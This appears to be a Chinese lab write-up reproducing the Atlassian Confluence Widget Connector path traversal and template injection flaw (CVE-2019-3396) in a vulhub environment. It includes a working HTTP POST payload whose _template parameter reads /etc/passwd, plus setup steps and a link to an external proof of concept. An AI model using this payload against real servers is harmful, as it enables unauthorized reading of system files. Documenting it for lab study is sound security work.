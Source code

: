 # Atlassian Confluence 路径穿越与命令执行漏洞

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包--->修改payload--->命令执行

### 0x01漏洞介绍

​			Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

服务端模版注入（Server-side Template Injection，SSTI），影响组件Widget Connector（小工具连接器）

##### 影响版本



### 0x02漏洞复现

##### **PAYLOAD:

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../../../../etc/passwd"}}}
```

​			**环境启动后，访问`http://your-ip:8090`会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书（不要选择Data Center和Addons)**

![Atlassian_Confluence_路径穿越与命令执行_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Atlassian_Confluence_路径穿越与命令执行_1.jpg)

​			**然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。**

![Atlassian_Confluence_路径穿越与命令执行_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Atlassian_Confluence_路径穿越与命令执行_2.jpg)

​			**如果提示填写cluster node，路径填写`/home/confluence`即可**

![Atlassian_Confluence_路径穿越与命令执行_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Atlassian_Confluence_路径穿越与命令执行_3.jpg)

​			**填写数据库账号密码，选择postgres数据库，地址为`db`，账号密码均为`postgres`**

![Atlassian_Confluence_路径穿越与命令执行_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Atlassian_Confluence_路径穿越与命令执行_4.jpg)

​			**Burpsuite抓包改包，/etc/passwd成功读取**

#### 			需要内存太大。直接给我虚拟机干宕机了，以后补充



### 0x03参考资料

POC:https://github.com/jas502n/CVE-2019-3396

https://blog.csdn.net/caiqiiqi/article/details/89034761

